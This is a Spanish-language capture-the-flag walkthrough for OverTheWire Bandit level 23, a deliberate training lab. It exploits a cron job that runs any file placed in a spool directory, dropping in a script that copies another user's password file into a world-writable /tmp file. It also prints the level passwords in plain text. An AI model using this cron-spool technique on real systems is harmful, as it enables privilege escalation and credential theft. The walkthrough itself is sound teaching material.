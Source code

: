 ## Objetivo:
A program is running automatically at regular intervals from **cron**, the time-based job scheduler. Look in **/etc/cron.d/** for the configuration and see what command is being executed.

**NOTE:** This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!

**NOTE 2:** Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…

## Datos de acceso al nivel:
- **Host: bandit.labs.overthewire.org** 
- **Port:** 2220
- **User:** bandit23
- **Password:** QYw0Y2aiA672PsMmh9puTQuhoz8SyR2G

## Solución:
Revisamos el script `cronjob_bandit24.sh` que se encuentra en `/usr/bin/`:

```bash
bandit23@bandit:/etc/cron.d$ ls
cronjob_bandit15_root  cronjob_bandit22  cronjob_bandit24       e2scrub_all  sysstat
cronjob_bandit17_root  cronjob_bandit23  cronjob_bandit25_root  otw-tmp-dir
bandit23@bandit:/etc/cron.d$ cat cronjob_bandit24
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
bandit23@bandit:/etc/cron.d$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname/foo
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done

bandit23@bandit:/etc/cron.d$
```

Lo que hace este script es ejecutar todo lo que contiene el directorio `/var/spool/bandit24/foo` y que el dueño sea `bandit23`, y luego lo elimina.
**NOTA:** este script se ejecuta cada minuto mediante el crontab configurado.

Por lo tanto, como sabemos que las contraseñas de los retos se almacenan en `/etc/bandit_pass`, vamos a hacer generar un script que lea la password, y que ese contenido lo almacene en un nuevo archivo que podamos leer.

Lo primero que haremos es crear un directorio en la carpeta `/tmp`:

```bash
bandit23@bandit:/etc/cron.d$ mkdir /tmp/tmpPass
bandit23@bandit:/etc/cron.d$
```

Creamos nuestro script usando el editor de texto nano  en el directorio que creamos en `/tmp`:

```bash
bandit23@bandit:/tmp/tmpPass$ nano getPass.sh
```

El script que vamos a ejecutar es un script en bash (por eso indicamos que utilizará `#!/bin/bash`, en caso de que no se encuentre en esa ruta, se puede obtener con el comando `which bash`).

Lo que hace este script es que leerá el archivo con la password de `bandit24` y la almacenará en el archivo `password`:

```bash
#!/bin/bash

cat /etc/bandit_pass/bandit24 >> /tmp/tmpPass/password
```

Le damos permisos de ejecución al script:

```bash
bandit23@bandit:/tmp/tmpPass$ ls -la
total 76
drwxrwxr-x    2 bandit23 bandit23  4096 Feb 23 23:41 .
drwxrwx-wt 1772 root     root     69632 Feb 23 23:41 ..
-rw-rw-r--    1 bandit23 bandit23    68 Feb 23 23:41 getPass.sh
bandit23@bandit:/tmp/tmpPass$ chmod 777 getPass.sh
bandit23@bandit:/tmp/tmpPass$ ls -la
total 76
drwxrwxr-x    2 bandit23 bandit23  4096 Feb 23 23:41 .
drwxrwx-wt 1772 root     root     69632 Feb 23 23:42 ..
-rwxrwxrwx    1 bandit23 bandit23    68 Feb 23 23:41 getPass.sh
bandit23@bandit:/tmp/tmpPass$
```

Dado que la salida del script se guardará en un archivo llamado `password`, creemos también un archivo con ese nombre.

```bash
bandit23@bandit:/tmp/tmpPass$ touch password
bandit23@bandit:/tmp/tmpPass$ ls
getPass.sh  password
bandit23@bandit:/tmp/tmpPass$
```

Le damos permiso al archivo de password para que todos puedan escribir sobre el:

```bash
bandit23@bandit:/tmp/tmpPass$ ls -la password
-rw-rw-r-- 1 bandit23 bandit23 0 Feb 23 23:43 password
bandit23@bandit:/tmp/tmpPass$ chmod 666 password
bandit23@bandit:/tmp/tmpPass$ ls -la password
-rw-rw-rw- 1 bandit23 bandit23 0 Feb 23 23:43 password
bandit23@bandit:/tmp/tmpPass$ 
```

Finalmente, copiemos el script en la carpeta `/var/spool/bandit24/foo` desde donde el trabajo `cron` debería ejecutar nuestro archivo, después de un minuto revisamos que en el archivo password se han escribido datos (la password del nivel 24 se ha escrito en el archivo).

```bash
bandit23@bandit:/tmp/tmpPass$ cp getPass.sh /var/spool/bandit24/foo/
bandit23@bandit:/tmp/tmpPass$ ls -la password
-rw-rw-rw- 1 bandit23 bandit23 0 Feb 23 23:43 password
bandit23@bandit:/tmp/tmpPass$ date
Thu Feb 23 11:46:25 PM UTC 2023
bandit23@bandit:/tmp/tmpPass$ date
Thu Feb 23 11:47:53 PM UTC 2023
bandit23@bandit:/tmp/tmpPass$ ls -la password
-rw-rw-rw- 1 bandit23 bandit23 33 Feb 23 23:47 password
bandit23@bandit:/tmp/tmpPass$ cat password
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar
bandit23@bandit:/tmp/tmpPass$
```

## Notas adicionales:
| Comando | Descripción |
| --- | --- |
| touch | El comando touch de Linux se usa principalmente para crear archivos vacíos y cambiar marcas de tiempo de archivos o carpetas. |
| chmod | El comando CHMOD son utilizamos para gestionar los permisos de archivos y directorios dentro del sistema. |

## Referencias:
- https://dinahosting.com/ayuda/como-configurar-tareas-cron-de-forma-manual/
- https://medium.com/@lizparody/escribiendo-tu-primer-script-en-la-l%C3%ADnea-de-comandos-bash-971b2377c319